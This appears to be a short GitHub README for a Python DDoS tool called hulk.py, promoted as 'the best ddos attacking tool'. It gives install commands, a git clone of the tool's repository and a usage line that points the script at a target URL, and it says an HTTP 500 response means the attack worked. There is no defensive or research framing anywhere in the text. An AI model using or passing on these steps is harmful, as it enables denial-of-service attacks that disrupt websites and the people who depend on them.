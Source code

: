 Follow me on instagram:-https://instagram.com/psycho_rexin_ofc_?igshid=YmMyMTA2M2Y=
To contains the file named hulk.py hulk.py is the best ddos attacking
Tool which is written with python installetion commands

$ apt update

$ apt upgrade

$ pkg install python2

$ pkg install git

$ git clone https://github.com/PSYCHO-REXIN/rexin-hulk

$ cd rexin-hulk

$ python2 hulk.py <url> (http://example.com)

If the result come response code 500 then your ddos attack successful.
Handsshake!! Butt some web site block you ip which may also show responce
Code 500 happy do sing !------END------
